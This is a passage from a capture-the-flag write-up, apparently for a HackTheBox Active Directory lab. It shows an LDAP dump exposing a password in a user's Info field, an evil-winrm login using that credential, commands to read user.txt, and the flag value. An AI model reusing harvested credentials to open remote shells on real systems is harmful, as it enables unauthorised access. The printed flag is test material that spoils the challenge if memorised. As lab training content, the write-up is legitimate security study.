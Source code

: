 ```
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133124888166969633
```

There! Usually, the field "Info" is left empty but in this case, you can read: "Ironside47pleasure40Watchful", which might be a credential. Assuming that it is, we are going to enumerate user information in AD through the LDAP protocol. And for that, there exists a tool called evil-winrm.

**What does evil-winrm do?** evil-winrm is a WinRM shell for hacking/penthesting purposes.

**And what is WinRM?** WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators. [Download evil-winrm repo here](https://github.com/Hackplayers/evil-winrm).

Run:

```bash
evil-winrm -i dc.support.htb -u support -p "Ironside47pleasure40Watchful"
```

And we will connect to a powershell terminal: PS C:\Users\support\Documents

To get the user.txt flag, run:

```
cd ..
dir
cd Desktop
dir
type user.txt
```

Result:

```
561ec390613a0f53b431d3e14e923de6
```


## Getting the System's flag

Coming soon.


## Tools in this lab


Before going through this write-up, you may have a look at some tools needed to solve it in case you prefer to investigate them and try harder instead of reading directly the solution.

**kerbrute**

Created by ropnop. [Download repo](https://github.com/ropnop/kerbrute). A tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication.

